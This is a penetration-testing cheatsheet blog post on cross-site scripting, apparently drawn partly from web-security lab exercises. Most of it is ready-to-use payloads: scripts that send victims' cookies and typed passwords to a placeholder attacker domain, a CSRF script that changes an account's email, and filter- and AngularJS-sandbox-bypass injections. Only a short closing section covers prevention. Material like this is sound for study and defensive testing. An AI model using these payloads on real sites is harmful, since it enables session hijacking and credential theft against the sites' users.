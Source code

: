 ```yaml
---
title: "XSS attack"
subtitle: ""
date: 2020-03-04T15:58:26+08:00
lastmod: 2020-03-04T15:58:26+08:00
draft: false
author: "Hato0"
description: "XSS cheatsheet"

tags: ["web", "penetest", "xss"]
categories: ["Penetest - Web"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Cross-site scripting

Cross-site scripting is used to inject malicious javascript code to user browser. 

This attack can lead to a total control of the application in use. More details and specific stuff can be found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

## Basics


- Exploiting cross-site scripting to steal cookies
	This part represent the principal use of XSS. Web apps usually use cookies to save and remember sessions. 
    
    In that way, this attack get the cookie in question and send it back to your own domain so you can easily capture it. 
	
	There is comon security system used to avoid this attack:
	-   The victim might not be logged in.
	-   Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
	-   Sessions might be locked to additional factors like the user's IP address.
	-   The session might time out before you're able to hijack it.
	
	Here is an example of that type of XSS:
        {{< highlight javascript "lineNos=false" >}}<script> 
            fetch('https://MYDOMAIN', {  method: 'POST',  mode: 'no-cors',  body:document.cookie  });  
        </script>
        {{< /highlight >}}


- Exploiting cross-site scripting to capture passwords
	
	This technique can be use because of stupid password managers and auto-fill option. Basicly the only thing you have to do is to inject an option in the input label to read data when they are enter. Here is an example : 
	
    {{< highlight html "lineNos=false" >}}
    <input name=username id=username>  
    <input type=password name=password onchange="
    if(this.value.length)fetch('https://MYDOMAIN',{  
    method:'POST',  
    mode: 'no-cors',  
    body:username.value+':'+this.value  
    });">
    {{< /highlight >}}


- Exploiting XSS to perform CSRF

	XSS can also be used to perform CSRF (more details in the next section). Here is an example payload working with token protection enable: 
	
	{{< highlight javascript "lineNos=false" >}}
	<script>  
	var req = new XMLHttpRequest();  
	req.onload = handleResponse;  
	req.open('get','/my-account',true);  
	req.send();  
	function handleResponse() {  
	 var token = this.responseText.match(/name="csrf" value="(\\w+)"/)\[1\];  
	 var changeReq = new XMLHttpRequest();  
	 changeReq.open('post', '/my-account/change-email', true);  
	 changeReq.send('csrf='+token+'&email=test@test.com')  
	};  
	</script>
	{{< /highlight >}}


## Reflected XSS 

Reflected XSS is the simplest variety of cross-site scripting. The application receive data in an HTTP request and includes that data within the immediate response in an unsafe way. Nothing is stored in the webapp and the trigger only works when the user click on the link or whatever with this particular payload include. Here are some examples : 

- HTML context with nothing encoded

	{{< highlight javascript "lineNos=false" >}}
	<script>alert(1)</script>
	{{< /highlight >}}
 
 
- HTML context with most tags and attributes blocked

	{{< highlight html "lineNos=false" >}}
	<iframe src="https://WEBSITE/?search="><body onresize=alert(document.cookie)>" onload=this.style.width='100px'>
	{{< /highlight >}}


- HTML context with all tags blocked except custom ones

	{{< highlight javascript "lineNos=false" >}}
	<script>  
	location = 'https://WEBSITE/?search=<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x';  
	</script>
	{{< /highlight >}}


- Event handlers and href attributes blocked

	{{< highlight javascript "lineNos=false" >}}
	https://WEBSITE/?search=<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>
	{{< /highlight >}}

- Some SVG markup allowed

	{{< highlight javascript "lineNos=false" >}}
	https://WEBSITE/?search="><svg><animatetransform onbegin=alert(1)>
	{{< /highlight >}}


- Reflected XSS with AngularJS sandbox escape without strings

	{{< highlight javascript "lineNos=false" >}}
	https://your-lab-id.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d\[\].join;\[1\]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
	{{< /highlight >}}
	
	
- Reflected XSS with AngularJS sandbox escape and CSP

	{{< highlight html "lineNos=false" >}}
	<script>  
	location='https://your-lab-id.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';  
	</script>
	{{< /highlight >}}
	

## Stored XSS 
Stored XSS is an injection in the actual page by any way (message, template injection, input, ...). Here are some examples: 

- Stored XSS into anchor href attribute with double quotes HTML-encoded

	{{< highlight javascript "lineNos=false" >}}
	javascript:alert('XSS')
	{{< /highlight >}}
	 
	 
- Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

	{{< highlight javascript "lineNos=false" >}}
	&apos;-alert(1)-&apos;
	{{< /highlight >}}
	

## DOM XSS 

DOM Based XSS is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner. That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.

As the vulnaribility is app specific, there will be no example and you will have to use your brain. 


## Escape CSP

CSP or 'Content Security Policy ' is a protection to XSS, clickjacking, code injection and more. CSP can be found on the server answer. You can use a [checker](https://csp-evaluator.withgoogle.com/) to dig in what you have in front of you. As the topic is large again here is a [link](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass) to understand what the checker gave you 


## How to prevent them 

-   **Filter input on arrival.** At the point where user input is received, filter as strictly as possible based on what is expected or valid input.
-   **Encode data on output.** At the point where user-controllable data is output in HTTP responses, encode the output to prevent it from being interpreted as active content. Depending on the output context, this might require applying combinations of HTML, URL, JavaScript, and CSS encoding.
-   **Use appropriate response headers.** To prevent XSS in HTTP responses that aren't intended to contain any HTML or JavaScript, you can use the `Content-Type` and `X-Content-Type-Options` headers to ensure that browsers interpret the responses in the way you intend.
-   **Content Security Policy.** As a last line of defense, you can use Content Security Policy (CSP) to reduce the severity of any XSS vulnerabilities that still occur.